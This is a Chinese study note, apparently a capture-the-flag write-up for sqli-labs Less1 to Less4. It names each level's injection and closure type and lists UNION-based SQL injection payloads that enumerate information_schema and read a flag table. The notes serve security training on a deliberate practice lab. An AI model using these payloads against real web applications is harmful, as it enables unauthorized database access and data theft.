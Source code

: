 ## **sqli-labs 靶场（BUU 题库）**
### Less1-Less4（联合注入）
**注：出现的类型在笔记里有详细题解，不再多写回显的判断了，以下只判断注入和闭合的类型，并粘贴最后的注入语句。**

#### Less1：
笔记写过了，不再提，只粘一下注入语句

```sql
?id=-1' union select 1,2,group_concat(schema_name) from information_schema.schemata--+
?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='ctftraining'--+
?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='flag'--+
?id=-1' union select 1,2,flag from ctftraining.flag--+
```

#### Less2：
转义字符判断出是数字型注入

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732028251075-4ef649da-85d1-41f8-89c1-3eaf81457340.png)

注入语句

```sql
?id=-1 union select 1,2,group_concat(schema_name) from information_schema.schemata
?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='ctftraining'
?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name='flag'--+
?id=-1 union select 1,2,flag from ctftraining.flag
```

#### Less3：
判断出是单引号加括号闭合

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732028447416-82a5cdd3-e330-465d-b5cc-a0a4439fa98c.png)

注入语句

```sql
?id=-1') union select 1,2,group_concat(schema_name) from information_schema.schemata--+
?id=-1') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='ctftraining'--+
?id=-1') union select 1,2,group_concat(column_name) from information_schema.columns where table_name='flag'--+
?id=-1') union select 1,2,flag from ctftraining.flag--+
```

#### **Less4：**
**判断出是双引号加括号闭合**

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732028554929-b2ea661e-88e2-44c8-a161-5784f21c752a.png)
